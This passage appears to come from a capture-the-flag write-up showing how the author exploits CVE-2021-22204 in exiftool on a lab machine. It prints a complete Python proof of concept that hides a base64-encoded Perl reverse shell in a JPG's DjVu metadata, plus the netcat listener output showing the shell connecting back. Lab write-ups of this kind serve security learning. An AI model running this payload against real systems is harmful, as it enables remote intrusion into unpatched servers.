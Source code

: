 It’s very clearly running `exiftool` (version 11.92) on the image.

### CVE-2021-22204

There’s a really [neat writeup](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/) on CVE-2021-22204, an RCE vulnerability in `exiftool`. The issue is in how Exiftool tries to parse the DjVu filetype, and how that can be inserted into an image like a JPG.

There’s a Perl POC in the post, but I went with [this Python version](https://github.com/convisoappsec/CVE-2021-22204-exiftool). It needs `apt install djvulibre-bin exiftool`.

The script is really simple:

```

#!/bin/env python3    
    
import base64    
import subprocess    
    
ip = '127.0.0.1'    
port = '9090'    
    
payload = b"(metadata \"\c${use MIME::Base64;eval(decode_base64('"    

payload = payload + base64.b64encode( f"use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in({port},inet_aton('{ip}')))){{open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');}};".encode() )        
    
payload = payload + b"'))};\")"    

payload_file = open('payload', 'w')    
payload_file.write(payload.decode('utf-8'))    
payload_file.close()    

subprocess.run(['bzz', 'payload', 'payload.bzz'])    
subprocess.run(['djvumake', 'exploit.djvu', "INFO=1,1", 'BGjp=/dev/null', 'ANTz=payload.bzz'])    
subprocess.run(['exiftool', '-config', 'configfile', '-HasselbladExif<=exploit.djvu', 'image.jpg'])

```

It builds a payload that looks like a Perl reverse shell, and then uses `bzz`, `djvumake`, and `exiftool` to add it to the image, `image.jpg`. I’ll update the ip and port to 10.10.14.6 and 443 and run it:

```

oxdf@hacky$ python exploit.py 
    1 image files updated

```

I’ll start `nc` and upload that image to the site, and a shell connects back:

```

oxdf@hacky$ nc -lnvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.119.
Ncat: Connection from 10.10.11.119:51622.
/bin/sh: 0: can't access tty; job control turned off
$ 

```
